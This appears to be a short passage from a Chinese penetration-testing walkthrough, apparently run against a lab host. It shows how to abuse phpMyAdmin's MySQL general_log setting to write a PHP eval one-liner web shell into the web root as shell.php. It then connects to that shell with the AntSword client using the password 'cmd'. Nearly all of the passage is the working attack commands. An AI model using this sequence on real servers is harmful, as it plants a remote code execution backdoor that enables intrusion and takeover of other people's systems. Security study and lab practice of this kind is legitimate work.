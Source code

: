 利用 phpmyadmin 日志

```bash
show variables  like  '%general%';
SET GLOBAL general_log='on'; SHOW VARIABLES LIKE '%general%';
SET GLOBAL general_log_file='C:/phpStudy_pro/www/shell.php';
SELECT '<?php eval($_POST["cmd"]);?>'
```

写入一句话

[![](assets/1705301733-c25fbca7345ff9df442b1e32877b1fd5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112141326-b29d1790-b111-1.png)

蚁剑连接

地址：[http://192.168.22.130/shell.php](http://192.168.22.130/shell.php)

密码：cmd

[![](assets/1705301733-31211815f402463ea199856b4e978238.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112141342-bc5ebd92-b111-1.png)
